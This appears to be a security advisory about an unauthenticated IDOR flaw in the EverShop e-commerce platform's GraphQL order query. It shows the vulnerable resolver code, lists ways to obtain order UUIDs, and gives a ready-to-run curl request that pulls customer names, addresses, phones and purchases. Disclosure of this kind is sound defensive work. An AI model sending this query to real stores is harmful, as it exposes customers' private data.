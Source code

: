 # Evershop Unauthorized Order Information Access (IDOR)

# Security Advisory: Unauthorized Order Information Access (IDOR)

- **CVE ID:** CVE-2025-XXXX-10
- **Product:** EverShop E-Commerce Platform
- **Vulnerability Type:** Insecure Direct Object Reference (IDOR)
- **Severity:** HIGH
- **CVSS v3.1 Score:** 7.5
- **CWE:** CWE-639 (Authorization Bypass Through User-Controlled Key)
- **Disclosure Date:** 2025-01-21

---

## Executive Summary

A critical authorization vulnerability has been identified in EverShop's GraphQL API that allows any unauthenticated user to access complete order information, including customer personally identifiable information (PII), shipping addresses, billing details, and purchase history. This is a textbook Insecure Direct Object Reference (IDOR) vulnerability where the application fails to verify whether the requesting user has permission to access the requested order data.

---

## Vulnerability Details

### Description

The `order` GraphQL query resolver accepts an order UUID as input and returns complete order details without performing any authentication or authorization checks. An attacker who obtains or guesses a valid order UUID can retrieve sensitive customer information including:

- Customer full name, email address, and phone number
- Complete shipping address (street, city, province, postal code, country)
- Complete billing address
- Order total amount and payment status
- Detailed list of purchased products with prices
- Shipping and tracking information

### Affected Components

**File:** `/src/modules/oms/graphql/types/Order/Order.resolvers.js` (lines 7-14)

**Vulnerable Code:**

```javascript
Query: {
  order: async (_, { uuid }, { pool }) => {
    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);  // ❌ Only checks if UUID exists
    const order = await query.load(pool);  // ❌ No authorization check
    return order ? camelCase(order) : null;
  }
}
```

**Comparison with Secure Implementation:**

The codebase does contain a secure implementation for customer-owned orders:

```javascript
Customer: {
  orders: async ({ customerId }, _, { pool }) => {
    const orders = await select()
      .from('order')
      .where('order.customer_id', '=', customerId);  // ✅ Validates ownership
    return orders.map((row) => camelCase(row));
  }
}
```

This demonstrates that the developers understand proper authorization, but failed to apply it consistently across all query endpoints.

---

## Attack Vector

### Prerequisites

- **Authentication:** None required
- **Access Level:** Public (unauthenticated users)
- **Complexity:** Low
- **User Interaction:** None

### Attack Steps

**Step 1: Obtain Order UUID**

Order UUIDs can be obtained through various methods:
- Email order confirmation links (e.g., `https://[REDACTED]/order/view/{ORDER_UUID}`)
- Predictable order numbering combined with CVE-2025-XXXX-11
- Information disclosure through error messages
- Social engineering
- Brute force (UUIDs are predictable if using time-based generation)

**Step 2: Query Order Information**

Execute an unauthenticated GraphQL query:

```bash
curl -X POST 'https://[REDACTED]/api/graphql' \
  -H 'Content-Type: application/json' \
  -d '{
    "query": "query GetOrder($uuid: String!) { order(uuid: $uuid) { uuid orderNumber customerEmail customerFullName customerTelephone grandTotal { value } shippingAddress { fullName telephone address1 city province postcode country { name } } billingAddress { fullName telephone address1 } items { productName qty productPrice { value } finalPrice { value } } } }",
    "variables": {
      "uuid": "TARGET_ORDER_UUID"
    }
  }'
```

**Step 3: Receive Sensitive Data**

<img width="941" height="518" alt="image" src="https://github.com/user-attachments/assets/0696e74f-c43d-4cfb-aa30-1e44a42269cc" />
